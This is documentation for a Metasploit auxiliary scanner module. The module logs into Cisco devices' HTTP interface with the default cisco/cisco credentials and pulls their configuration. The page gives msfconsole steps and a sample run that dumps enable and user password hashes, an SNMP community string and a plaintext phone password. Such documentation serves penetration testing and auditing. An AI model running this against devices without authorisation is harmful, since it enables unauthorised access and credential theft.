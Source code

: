 ## Description

  This module scans for the presence of the HTTP interface for a cisco device and attempts to enumerate it using basic authentication.

## Vulnerable Application

  Any Cisco networking device with the HTTP interface turned on.

## Verification Steps

  1. Enable the web interface on a cisco device `ip http server`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/cisco_device_manager```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```run```

## Options

  **HttpUsername**

  Username to use for basic authentication.  Default value is `cisco`

  **HttpPassword**

  Password to use for basic authentication.  Default value is `cisco`

## Scenarios

### Tested on Cisco UC520-8U-4FXO-K9 running IOS 12.4

  ```
  msf5 > use auxiliary/scanner/http/cisco_device_manager 
  msf5 auxiliary(scanner/http/cisco_device_manager) > set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  msf5 auxiliary(scanner/http/cisco_device_manager) > set vebose true
  vebose => true
  msf5 auxiliary(scanner/http/cisco_device_manager) > run
  
  [+] 2.2.2.2:80 Successfully authenticated to this device
  [+] 2.2.2.2:80 Processing the configuration file...
  [+] 2.2.2.2:80 MD5 Encrypted Enable Password: $1$TF.y$3E7pZ2szVvQw5JG8SDjNa1
  [+] 2.2.2.2:80 Username 'cisco' with MD5 Encrypted Password: $1$DaqN$iP32E5WcOOui/H66R63QB0
  [+] 2.2.2.2:80 SNMP Community (RO): public
  [+] 2.2.2.2:80 ePhone Username 'phoneone' with Password: 111111
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
